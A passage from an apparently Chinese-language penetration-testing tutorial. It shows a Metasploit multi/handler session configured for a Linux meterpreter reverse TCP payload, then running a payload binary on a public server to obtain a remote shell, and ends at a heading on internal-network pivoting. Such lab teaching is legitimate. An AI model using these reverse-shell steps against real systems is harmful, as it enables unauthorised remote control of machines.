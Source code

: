 ```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.111.132
LHOST => 192.168.111.132
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.111.132:4444


```



公网服务器运行样本xuegod

```
[root@VM-0-10-centos home]# chmod +x xuegod
[root@VM-0-10-centos home]# ./xuegod
```



成功拿到公网服务器shell

![image-20211012190238149](assets/image-20211012190238149.png)



## 2.2 使用MSF自带代理功能实现内网渗透
